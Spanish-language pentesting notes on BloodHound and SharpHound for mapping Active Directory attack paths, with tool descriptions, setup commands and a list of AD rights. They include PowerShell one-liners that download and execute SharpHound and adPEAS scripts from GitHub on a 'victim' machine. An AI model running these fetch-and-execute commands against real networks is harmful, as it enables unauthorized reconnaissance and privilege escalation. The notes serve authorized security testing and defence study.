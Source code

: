 # Bloodhound 

Tags: #AD #BloodHound #SharpHound 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

```bash 
1. Visualización de Relaciones: BloodHound utiliza gráficos para mostrar las relaciones entre usuarios, grupos, computadoras y otros componentes en un AD. Estas visualizaciones hacen que sea más fácil para un atacante o pentester entender rápidamente las relaciones complejas y encontrar potenciales caminos de ataque.
    
2. Identificación de Caminos de Ataque: Uno de los principales valores de BloodHound es su capacidad para identificar caminos de escalada de privilegios y movimiento lateral. Al alimentar a BloodHound con datos recopilados, la herramienta puede identificar caminos específicos que un atacante puede seguir para escalar privilegios o moverse lateralmente a través de una red.
    
3. Automatización: La recopilación manual de detalles sobre las relaciones AD puede ser extremadamente lenta y tediosa. BloodHound, junto con su componente de recopilación de datos llamado SharpHound, automatiza gran parte de este proceso, permitiendo a los pentesters recopilar y analizar datos rápidamente.
    
4. Identificación de Vulnerabilidades Comunes: BloodHound también puede identificar patrones comunes que a menudo son vulnerables a la explotación, como configuraciones de delegación inseguras, miembros excesivamente permisivos en grupos de alto privilegio, y usuarios que tienen derechos de sesión local en sistemas críticos.
    
5. Capacidades de Análisis Avanzado: Aparte de identificar caminos obvios, BloodHound puede ayudar a identificar relaciones no evidentes que podrían ser explotadas. Por ejemplo, un usuario podría no tener privilegios directos sobre un recurso, pero a través de una serie de relaciones y delegaciones, podría tener una ruta de acceso indirecto.
    
6. Capacitación y Conciencia: Para defensores y equipos de seguridad, BloodHound también puede ser una herramienta valiosa. Al visualizar la estructura de permisos y las relaciones dentro de AD, los defensores pueden anticiparse a potenciales vías de ataque y tomar medidas para mitigar los riesgos.
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1'); 
❯ Invoke-BloodHound -CollectionMethod All     

Nota: Estos comandos los ejecutamos en la maquina victima Windows para recolectar la información y obtener un archivo '.zip' el cual pasaremos a la herramienta de 'BloodHound' para el analisis 
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Nota: Podemos usar ADPeas para hacer la recolección ya que automaticamente ejecuta 'SharpHound'
```

## BloodHount 

* [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy/releases)
* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries)

```bash 
❯ neo4j console                   # Iniciamos la base de datos
❯ ./BloodHound --no-sandbox       # Despues de descargar el binario lo ejecutamos 
```

## Tipos de ActiveDirectoryRights

```bash 
Los 'ActiveDirectoryRights' incluyen, pero no se limitan a:

1. Read/Write: Leer y escribir información en objetos de AD.
2. Delete: Derechos para eliminar objetos.
3. CreateChild/DeleteChild: Crear o eliminar objetos hijos en un contenedor.
4. Self: Derechos para modificar información propia.
5. GenericAll: Control total sobre el objeto, incluyendo todos los derechos anteriores.
6. WriteDacl: Modificar la lista de control de acceso discrecional (DACL).  
7. WriteOwner: Cambiar el propietario de un objeto.
```